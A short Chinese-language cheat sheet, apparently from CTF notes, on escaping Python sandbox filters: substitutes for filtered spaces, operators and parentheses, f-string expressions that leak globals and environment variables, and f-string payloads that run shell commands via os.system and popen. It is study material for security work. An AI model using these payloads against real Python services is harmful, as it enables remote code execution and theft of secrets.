 ### 过滤了空格
通过 ()、[] 替换

### 过滤了运算符
== 可以用 in 来替换

or 可以用| + -。。。-来替换

例如
```py
for i in [(100, 100, 1, 1), (100, 2, 1, 2), (100, 100, 1, 2), (100, 2, 1, 1)]:
    ans = i[0]==i[1] or i[2]==i[3]
    print(bool(eval(f'{i[0]==i[1]} | {i[2]==i[3]}')) == ans)
    print(bool(eval(f'- {i[0]==i[1]} - {i[2]==i[3]}')) == ans)
    print(bool(eval(f'{i[0]==i[1]} + {i[2]==i[3]}')) == ans)
```
and 可以用& *替代

例如
```py
for i in [(100, 100, 1, 1), (100, 2, 1, 2), (100, 100, 1, 2), (100, 2, 1, 1)]:
    ans = i[0]==i[1] and i[2]==i[3]
    print(bool(eval(f'{i[0]==i[1]} & {i[2]==i[3]}')) == ans)
    print(bool(eval(f'{i[0]==i[1]} * {i[2]==i[3]}')) == ans)
```

### 过滤了 ()

1. 利用装饰器 @
2. 利用魔术方法，例如 `enum.EnumMeta.__getitem__`

### f 字符串执行
f 字符串算不上一个绕过，更像是一种新的攻击面，通常情况下用来获取敏感上下文信息,例如过去环境变量
```py
{whoami.__class__.__dict__}
{whoami.__globals__[os].__dict__}
{whoami.__globals__[os].environ}
{whoami.__globals__[sys].path}
{whoami.__globals__[sys].modules}

# Access an element through several links
{whoami.__globals__[server].__dict__[bridge].__dict__[db].__dict__}
```

也可以直接 RCE
```py
>>> f'{__import__("os").system("whoami")}'
kali
'0'
>>> f"{__builtins__.__import__('os').__dict__['popen']('ls').read()}"
```


### 反序列化绕过
